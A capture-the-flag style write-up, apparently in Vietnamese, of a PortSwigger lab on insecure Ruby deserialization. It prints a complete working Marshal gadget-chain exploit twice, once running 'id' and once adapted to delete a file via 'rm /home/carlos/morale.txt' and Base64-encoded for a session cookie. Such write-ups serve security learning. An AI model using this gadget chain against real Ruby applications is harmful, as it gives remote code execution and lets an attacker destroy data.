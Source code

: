 # Target Goal: 

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

# Recon: 

Sau khi login, ta sẽ có session được cấp: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/97c9aa2d-8baa-446c-9705-cd9fa67a36c1)

Thử đem đi dcode sang b64 ta nhận thấy đây không phải là serialize của java và :

![image](https://github.com/vanniichan/Portswigger/assets/112863484/55d3c513-7d68-4012-8f8a-97ba00af8766)

Thay đổi cookie ta nhận được được phiên bản và loại data

![image](https://github.com/vanniichan/Portswigger/assets/112863484/7212365a-043b-4d0b-8356-fc450cb32579)

Như mô tả bài lab, chúng ta cũng không có tool để dùng mà chỉ có cách tìm tài liệu về vuln này với hint:
```
Try searching for "ruby deserialization gadget chain" online.
```
Tìm được 1 bài viết `Universal Deserialisation Gadget for Ruby 2.x-3.x` mặc dù bài lab giải được nhưng không hiểu sao ver 4.8 vẫn bị lỗi (Chăc do cố tình :)) )

Như payload CVE ta có thể thấy gadget chain thực hiện `id` như sau:
```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
puts Marshal.load(payload)
```

Thay đổi bằng `rm /home/carlos/morale.txt` và chuyển nó sang b64 bằng `puts Base64.encode64(payload)`:

```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
puts Base64.encode64(payload)
```
![image](https://github.com/vanniichan/Portswigger/assets/112863484/967750c4-454e-40be-920b-81c0900c7865)

# Flag: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/3eabd498-00f7-4894-ba34-e4b1fee97086)
